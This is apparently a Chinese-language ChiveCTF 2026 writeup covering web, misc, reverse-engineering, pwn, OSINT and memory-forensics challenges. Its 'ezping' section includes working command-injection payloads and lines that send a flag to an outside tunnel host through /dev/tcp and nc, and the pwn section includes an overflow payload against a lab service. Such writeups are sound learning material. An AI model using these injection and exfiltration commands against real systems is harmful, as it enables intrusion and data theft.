






# ChiveCTF 2026 Writeup

## Info
杨哲思/Zes Minkey Young/TeamZincs

ChiveCTF 2026 位18

## Web
怎么全是黑盒。吓得我蟠桃二进制。
### 欲得广厦千万间
F12 被禁了，改用 `view-source:` 获取源码。

注意到 `_gc` 函数，该函数返回 flag。
```js
function checkFlag(floor) {
  if (!FLAG_TRIGGERED && floor >= 666) {
    FLAG_TRIGGERED = true
    document.getElementById('flag-value').textContent = _gc()
    document.getElementById('flag-modal').classList.add('show')
  }
}
```
```html
<script src="assets/zepto-1.1.6.min.js"></script>
<script src="assets/config.js"></script>
<script src="dist/main.js"></script>
```
```js
var _gc=function(){var _k=[99,104,105,118,101,123,121,48,117,95,50,52,110,95,54,117,105,108,100,95,105,116,95,55,111,95,49,111,111,111,125];return _k.map(function(c){return String.fromCharCode(c)}).join('')};
```
flag: `chive{y0u_24n_6uild_it_7o_1ooo}`


## Misc

### 签到
哈基米语，直接丢到哈基米语解密网站即可。

```html
<!-- ========== 源代码彩蛋区域 ========== 
  哈基米 悄悄告诉你:
  曼波大狗叫耶😽 叮咚鸡啊~~ 哦玛吉利没有duang!
  蛋蛋leg奶龙呀 南北绿豆叫 阿西嘎喵~
  
  额外赠送: 
   https://starpuccino.github.io/hachimi-wonameruto-translator/
  快去领取你的flag吧
  惊喜彩蛋2: 打开控制台, 点一下"源代码"按钮( F12 ), 还有哈基米摇尾巴动画哦~
  如果觉得快乐, 就大声喊一声 "曼波！"
  大狗叫duang🐈 哦玛吉利duang！
  
  你找到我啦～ 送你一朵小花🌸 喵呜～
-->

```
### Misc_1 Macro
做出来的是 EZ Macro。

将 `.docm` 文件后缀改为 `.zip` 并解压得到 `word/vbaProject.bin` 文件。

使用OLEVBA反编译得到：
```vb
Sub ShowFlag()
    Dim recovered As String

    recovered = unxor(Array(115, 70, 89, 88, 85, 85, 71, 0, 89, 111, 25, 88, 29, 111, 3, 67, 82, 29, 84, 74), 0) & _
                unxor(Array(3, 84, 113, 70, 76, 4, 113, 1, 94, 113, 71, 30, 66, 74, 111, 4, 91, 7, 30, 93), 20) & _
                unxor(Array(26, 7, 1, 77, 4, 66, 92, 87, 111, 3, 86, 3, 77, 69, 25, 3, 84, 113, 7, 70), 40) & _
                unxor(Array(3, 113, 64, 0, 89, 3, 92, 5, 70, 3, 92, 66, 111, 27, 83, 92, 1, 64, 83), 60)

    MsgBox recovered, vbInformation, "Recovered"
End Sub
...
Private Function unxor(ciphertext As Variant, start As Integer) As String
    Dim cleartext As String
    Dim key() As Byte
    Dim i As Long
    Dim klen As Long

    key = Base64Decode("Q2hpdmVDVEZfU2FmZV9WQkFfS2V5XzIwMjY=")
    klen = UBound(key) + 1

    cleartext = ""
    For i = LBound(ciphertext) To UBound(ciphertext)
        cleartext = cleartext & Chr(ciphertext(i) Xor key((i + start) Mod klen))
    Next i

    unxor = cleartext
End Function

```

末尾有关键信息，真的 key 其实是 `0.0.0.0`，而不是 base64 编码的那个。

```
VBA FORM STRING IN 'vbaProject.bin' - OLE stream: 'UserForm1/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
hello               check the control and the xorkey is 0.0.0.0
-------------------------------------------------------------------------------
VBA FORM Variable "b'TextBox1'" IN 'vbaProject.bin' - OLE stream: 'UserForm1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
b'hello               check the control and the xorkey is 0.0.0.0'
```

```py
def unxor(ciphertext, key, start):
    return [ciphertext[i] ^ key[(start + i) % len(key)] for i in range(len(ciphertext))]

key = b"0.0.0.0"

print((
    unxor([115, 70, 89, 88, 85, 85, 71, 0, 89, 111, 25, 88, 29, 111, 3, 67, 82, 29, 84, 74], key, 0) +
    unxor([3, 84, 113, 70, 76, 4, 113, 1, 94, 113, 71, 30, 66, 74, 111, 4, 91, 7, 30, 93], key, 20) +
    unxor([26, 7, 1, 77, 4, 66, 92, 87, 111, 3, 86, 3, 77, 69, 25, 3, 84, 113, 7, 70], key, 40) +
    unxor([3, 113, 64, 0, 89, 3, 92, 5, 70, 3, 92, 66, 111, 27, 83, 92, 1, 64, 83], key, 60)
))

```

### pt
拼图，每块是 13x13，有一个格宽的 gap。注意到边缘块边缘侧要少一截，所以很好判断每块应在的位置。

作为一个 Web 制谱器开发者我选择 Canvas 2D 完成拼图。
```html
<html>
    <head>
        <meta charset="utf-8">
    </head>
    <body>
        <canvas id="canvas" width="390" height="390"></canvas>
<script type="module">
    const canvas = document.getElementById('canvas');
    const ctx = canvas.getContext('2d');
    const img = new Image();
    img.src = "./pt.png";
    await img.decode();
    const px = 4;
    function clipTo([x1, y1], [x2, y2]) {
        ctx.drawImage(img, (x1 * 14) * px, (y1 * 14) * px, 13 * px, 13 * px,
            (x2 * 13) * px, (y2 * 13) * px, 13 * px, 13 * px);
    }
    clipTo([0, 0], [0, 0]);
    clipTo([2, 0], [2, 0]);
    clipTo([1, 0], [1, 2]);
    clipTo([0, 1], [0, 2]);
    clipTo([0, 2], [1, 0]);
    clipTo([1, 1], [2, 2]);
    clipTo([1,2],[0,1]);
    clipTo([2,1],[2,1]);
    clipTo([2,2],[1,1]);
    // 把左上右上定位块补全

    ctx.fillStyle = "black";

    ctx.fillRect(4, 4, 28, 28)
    ctx.fillStyle = "white";
    ctx.fillRect(8, 8, 20, 20)
    ctx.fillStyle = "black";

    ctx.fillRect(12, 12, 12, 12)

    ctx.translate(120, 0)
    
    ctx.fillStyle = "black";

    ctx.fillRect(4, 4, 28, 28)
    ctx.fillStyle = "white";
    ctx.fillRect(8, 8, 20, 20)
    ctx.fillStyle = "black";

    ctx.fillRect(12, 12, 12, 12)
</script>
    </body>
</html>
```



## Rev
### Rev_1

Ghidra 逆向出来直接找这个字符串就行。

### Game_1
这是一个 Godot 游戏程序。
搜索 flag 并找到 `challenge/FlagCipher.gd` 中的：
```gdscript

static func decrypt_flag(seed:String) -> String:
	var key = derive_key(seed)
	if key.size() != 16:
		return ""
	var ctx = AESContext.new()
	var err = ctx.start(AESContext.MODE_CBC_DECRYPT, key, IV)
	if err != OK:
		return ""
	var plain = ctx.update(CIPHERTEXT)
	ctx.finish()
	plain = _strip_pkcs7(plain)
	if plain.is_empty():
		return ""
	var text = plain.get_string_from_utf8()
	if text.is_empty():
		return ""
	if text.md5_text() != EXPECTED_FLAG_MD5:
		return ""
	return text
```

这个函数解密 flag。

然后追踪 `decrypt_flag` 函数，在 `FlagCipher.gd` 中找到了一个调用。
```gdscript
func _on_decrypt_pressed() -> void:
	var flag = flag_cipher.decrypt_flag(input.text.strip_edges())
	if flag.is_empty():
		result.text = "ACCESS DENIED"
	else:
		result.text = flag
```
但这个调用显示密钥还是从用户输入获取的，因此需要调转思路，直接搜索 `seed` 之类字眼。

最后在 `ScoreBoard.gd` 中找到：
```gdscript
func _ready() -> void:
	time.text = "%s: %s" % [tr("SURVIVAL TIME"), int(data["time"])]
	kill.text = "%s: %s" % [tr("DEFEAT ENEMIES"), data["kill"]]
	gold.text = "%s: %s" % [tr("OBTAIN GOLD"), data["gold"]]
	memo.visible = LevelServer.last_victory_level == 30
	if memo.visible:
		memo.text = "Engineer Memo:\nmaintenance key seed = %s" % ("sec" + "ret" + "_key")
```
密钥是 `secret_key`。

太懒，vibe 一个解密脚本出来：
```py
import hashlib
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import unpad

IV = bytes([
    0x13, 0x37, 0xC0, 0xDE, 0x42, 0x21, 0xAA, 0x55,
    0x90, 0xFE, 0x11, 0x22, 0x33, 0x44, 0x55, 0x66
])

CIPHERTEXT = bytes([
    0x39, 0x94, 0x9A, 0x76, 0x86, 0xAE, 0x1A, 0x5A,
    0x9B, 0xCA, 0x6E, 0xA2, 0x36, 0xB9, 0x00, 0xEC,
    0x19, 0x88, 0x33, 0xFE, 0x4A, 0xD3, 0x0D, 0x14,
    0x3D, 0xF2, 0x20, 0x7E, 0xEC, 0x1D, 0x56, 0xFC
])

EXPECTED_FLAG_MD5 = "c164e7c20b477d749100a6c9264b60d8"

def derive_key(seed: str) -> bytes:
    return hashlib.md5(seed.encode()).digest()

def decrypt_flag(seed: str) -> str:
    key = derive_key(seed)
    if len(key) != 16:
        return ""
    
    try:
        cipher = AES.new(key, AES.MODE_CBC, IV)
        plain = cipher.decrypt(CIPHERTEXT)
        plain = strip_pkcs7(plain)
        if not plain:
            return ""
        
        text = plain.decode('utf-8')
        if not text:
            return ""
        
        if hashlib.md5(text.encode()).hexdigest() != EXPECTED_FLAG_MD5:
            return ""
        
        return text
    except Exception:
        return ""

def strip_pkcs7(data: bytes) -> bytes:
    if not data:
        return b""
    
    pad = data[-1]
    if pad < 1 or pad > 16 or pad > len(data):
        return b""
    
    for i in range(len(data) - pad, len(data)):
        if data[i] != pad:
            return b""
    
    return data[:-pad]

print(decrypt_flag("secret_key"))
```


## Pwn

### guess


程序运行时生成了 101 以上的随机数，而我们猜数字只能猜 1-100.

注意到随机数和 96 字符长用户名都存在 `GameData` 结构体，并且用户名后被赋值，因此可以通过数组越界来修改先前赋值的目标随机数。

Ghidra 中看到文件是小端序的。



负载：
```
aaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaa
```
`a` 的ASCII码为 97，猜测为 97 即可获得flag。
```
[wsl]
$ nc chive.vaa.la 34066
=== Guess the Number Game ===
Enter your name: aaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaa
aaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaa
Hello aaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaaaabaaaaaaa! Let's begin
You have 3 chances to guess the number (0-100).
Guess (3 left): 1
1
Wrong! The number was 97
Guess (2 left): 97
97
You guessed it! Here is your flag: chive{6d8831d2-ecbf-4b05-9ee5-f9696d73aa56}
```

### eq


注意到 `alarm(6)`，这意味着 6 秒后程序会退出。6 秒内完成 10 次加法并传给靶机还是有点难的。因此用脚本来执行。代码：

```py
from pwn import *

p = remote('chive.vaa.la', 34086)
p.recvline()
p.sendline(b'aaa')
p.recvline()

for i in range(10):
    b = p.recvuntil(b'num:')
    print(b)
    compute = b.decode().split("=")[0]
    segs = compute.split("+")
    print(segs)
    result = sum(int(s.strip()) for s in segs)
    print(result)
    p.sendline(str(result).encode())

print(p.recvline())
print(p.recvline())
```

## Osint

### 旅行日记1
很简单。图中有悬挂式单轨，全国没有几个城市有悬挂式单轨。下载该题目附件通过查看 EXIF 元数据中的GPS信息确认武汉市。

没有在地图软件上找到较新的街景，因此穷举每个站。反正也就那么几个站（

```
flag{湖北省武汉市东湖新技术开发区高新大道站_光谷空轨旅游线_九峰山站-龙泉山站}
```

### 旅行日记2
这会 EXIF 元数据里面找不到经纬度了。图中有一个“Hindmarsh Park”，把它喂给 AI。AI 给我搜索到了 [location.zone](https://www.location.zone/au/prk/hindmarsh-park)。虽然有经纬度，但是不是答案。不过从这里我们得知该地点位于澳大利亚的 Kiama。

使用“奥维互动地图”查看该地点，并根据地面和路桩成功定位到了这个位置。

```
flag{34.670°E,150.855°S}
```

## Forensics

### Memory Trail
最后一天来赶这个题，2GB附件，百度网盘下载，急急急。遂在赛群里面询问，得到了云栖的施舍。我宣布 tx 今天不是 sb（误

使用 `volatility` 进行分析。克隆仓库等略。

#### 2
先查看网络信息：`py vol.py -f ../memory.dmp windows.netscan >> netscan.txt`

找到 `powershell.exe`：
```
0xd90252c65010	TCPv4	192.168.194.128	50165	192.168.194.1	4444	ESTABLISHED	2088	powershell.exe	N/A
```
拿下 2 题。

#### 3
提取单个进程的内存转储：`py vol.py -f ../memory.dmp windows.memmap --pid 3488 --dump`

直接扫字符串：`strings pid.3488.dmp -n 7 -e l >> strings.txt`

Ctrl+F 查找 `flag{` 即可。（并没有恢复这个txt文件）

Flag：`flag{SiMpl3_Mem0rY_For3ns1c5}`

#### 1
在那个 `string.txt` 里面让AI帮我找到了密码。

```
ARCHIVE_PASS=Chive2026!!!
```
不过话说这个在前面两题的时候搜索“chive”已经留意到了来着……当时没意识到这个就是第一题答案。

# 补录赛后的题

## Web

### ezping
:::tip 支配狂魔这一块！
*题目：人家只是一个简单的 ping 呢，不能搞一些注入什么的。*

*我：我明白了，注入是错误的方向，不要往这方面想。*
:::

简单的 shell 注入。
```js
const r = fetch("/",{method:"POST",body:"ip=127.0.0.1%0Acat /flag",headers:{"content-type":"application/x-www-form-urlencoded"}});console.log(await (await r).text())
```

:::tip 域名 versus IP？
*otr：那我再搞难一点，这个题不给你们显示执行结果，就告诉你们执行成功了没有让你们打盲注你们还会打吗？反弹 shell 都会写吗？*

*otr：你首先得有一个自己的服务器，要有公网 IP。*

*鱼：cpolar 不行吗？不能用 cpolar 域名吗？*

*otr：域名和 IP 还是不一样。*
:::

我肯定是不信啊！我得试试。
先
```powershell
cpolar tcp 11451
(新开一个终端然后：)
ncat -lvnp 11451
```

```js
await (await fetch("/",{
    method:"POST","headers":{"content-type":"application/x-www-form-urlencoded"},
    body:"ip=" +encodeURIComponent("127.0.0.1\ncat /flag > /dev/tcp/15.tcp.cpolar.top/10865")})).text()
```

没有成功收到消息。但是真的不行吗？

```js
await (await fetch("/",{
    method:"POST","headers":{"content-type":"application/x-www-form-urlencoded"},
    body:"ip=" +encodeURIComponent("127.0.0.1\nnc 15.tcp.cpolar.top 10865 << EOF\naaa\nEOF")})).text()
```

```powershell
PS C:\Users\21492> ncat -lvnp 11451 (上面开的那个)
Ncat: Version 7.98 ( https://nmap.org/ncat )
Ncat: Listening on [::]:11451
Ncat: Listening on 0.0.0.0:11451
Ncat: Connection from 127.0.0.1:38687.
aaa
```

成功收到了 `aaa`。但是，`|$&()` 在这个题目里面都不能用，无论是变量替换还是管道都无法把 `cat /flag` 的输出送到我们的攻击服务器。也不能用编程的方式，因为我们连函数都没法调用了。
